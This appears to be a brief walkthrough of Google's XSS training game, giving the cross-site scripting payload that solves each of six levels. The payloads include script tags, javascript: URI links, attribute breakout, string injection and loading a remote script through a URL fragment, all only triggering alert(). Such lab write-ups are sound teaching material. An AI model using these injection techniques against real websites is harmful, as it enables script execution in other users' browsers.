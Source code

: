 https://xss-game.appspot.com/  

Level 1: No stipping  
`<script>alert()</script>`  

Level 2: Script stripping  
`<a href="javascript:alert()">click</a>`  

Level 3: No input  
in address page  
`'><a href="javascript:alert()">click</a>`   

Level 4: some input   
`1111');+alert('`      

Level 5: uri controls   
`signup?next=confirm => signup?next=javascript:alert()`   

Level 6:  
create a file `alert.js` with the only `alert()` function and host it on the github pages and change the link  
`https://xss-game.appspot.com/level6/frame#HTTPS://github.com/Evedel/HackTheBox/alert.js`  